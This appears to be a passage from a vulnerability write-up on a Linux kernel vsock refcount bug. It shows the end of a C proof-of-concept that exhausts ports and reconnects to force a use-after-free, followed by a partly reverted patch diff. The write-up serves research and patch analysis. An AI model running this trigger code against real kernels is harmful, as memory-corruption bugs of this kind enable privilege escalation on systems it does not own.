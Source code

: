 ``` c
    getsockname(server_fd, (struct sockaddr *)&server_addr, &alen);
    printf("Get current port: %u !!\n", server_addr.svm_port);

    // [1] reserve some ports, make `vsock_auto_bind()` ---> `__vsock_bind_connectible()` fails
    for (int i = 1; i <= MAX_PORT_RETRIES; i++) {
        struct sockaddr_vm tmp_addr = {
            .svm_family = AF_VSOCK,
            .svm_cid = VMADDR_CID_LOCAL,
            .svm_port = server_addr.svm_port + i,
        };
        bind(socket(AF_VSOCK, SOCK_STREAM, 0), (struct sockaddr*)&tmp_addr, sizeof(tmp_addr));
    }

    // [2] `__vsock_bind_connectible()` will return error due to no available port
    if (connect(client_fd, (struct sockaddr*)&server_addr, sizeof(server_addr)) == 0) {
        puts("[-] find an available port --> exploit failed :(");
        exit(0);
    }

    // [3] `transport->release()` drops the refcount of sk object (2 --> 1), while
    //     `__vsock_bind_connectible()` assumes socket in the unbound table and drops refcount again (1 --> 0)
    server_addr.svm_cid = VMADDR_CID_HYPERVISOR;
    connect(client_fd, (struct sockaddr*)&server_addr, sizeof(server_addr)); 
    return 0;
}
```

### 6.3. Patch

The patch tries to prevent socket unbinding during a transport reassignment, but it was later reverted.

``` diff
@@ -337,7 +337,10 @@ EXPORT_SYMBOL_GPL(vsock_find_connected_socket);
 
 void vsock_remove_sock(struct vsock_sock *vsk)
 {
-    vsock_remove_bound(vsk);
+    /* Transport reassignment must not remove the binding. */
+    if (sock_flag(sk_vsock(vsk), SOCK_DEAD))
+        vsock_remove_bound(vsk);
+
     vsock_remove_connected(vsk);
 }
 EXPORT_SYMBOL_GPL(vsock_remove_sock);
@@ -821,12 +824,13 @@ static void __vsock_release(struct sock *sk, int level)
      */
     lock_sock_nested(sk, level);
 
+    sock_orphan(sk);
+
     if (vsk->transport)
         vsk->transport->release(vsk);
     else if (sock_type_connectible(sk->sk_type))
         vsock_remove_sock(vsk);
 
-    sock_orphan(sk);
```
